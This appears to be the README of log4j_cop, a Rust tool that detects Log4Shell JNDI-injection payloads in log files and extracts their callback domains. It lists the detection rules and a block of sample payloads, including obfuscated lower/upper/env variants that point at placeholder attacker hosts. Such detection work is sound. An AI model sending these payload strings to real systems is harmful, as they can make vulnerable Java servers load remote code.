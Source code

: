 # log4j_cop

Detects log4j payloads from a log file and optionally extracts URLs into a CSV file.

The CSV file will have two columns: `<URL>,<number of times URL showed up>`

## Usage

1. Build the binary

```
$ cargo build --release
```

2. Run

```
$ ./log4j_cop --help
log4j_cop 0.2
Bernardo de Araujo
Search logs for log4j payloads and optionally extract domains.

USAGE:
    log4j_cop [OPTIONS] <LOG_FILE>

FLAGS:
    -h, --help       Prints help information
    -V, --version    Prints version information

OPTIONS:
    -d, --domains_output_path <domains_output_path>
            When specified domains will be extracted and persisted in this file. Unrecognized domains will be saved in a
            file called failed.log.

ARGS:
    <LOG_FILE>    Specifies the log file to be used
```

## Rules

Currently the following rules (and variants) are being accounted for:

- ${jndi:ldap://
- ${jndi:rmi://
- ${jndi:ldaps:/
- ${jndi:dns:/
- ${jndi:nis:/
- ${jndi:nds:/
- ${jndi:corba:/
- ${jndi:iiop:/

We are also taking into account:

- Mixed case payloads
- URL encoded payloads

## Algorithm

Each line is broken into characters and we run each character against characters from our rules.

1. For each rule, if a character matches the current character in that rule state machine we:
   - increment the state machine of that rule
   - otherwise the state remains the same
2. If the state machine of any rules reaches the end (every character in our rule is consumed):
   - return a match
   - otherwise return no match

## Examples of payloads being matched

```
${jndi:ldap://whatever.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
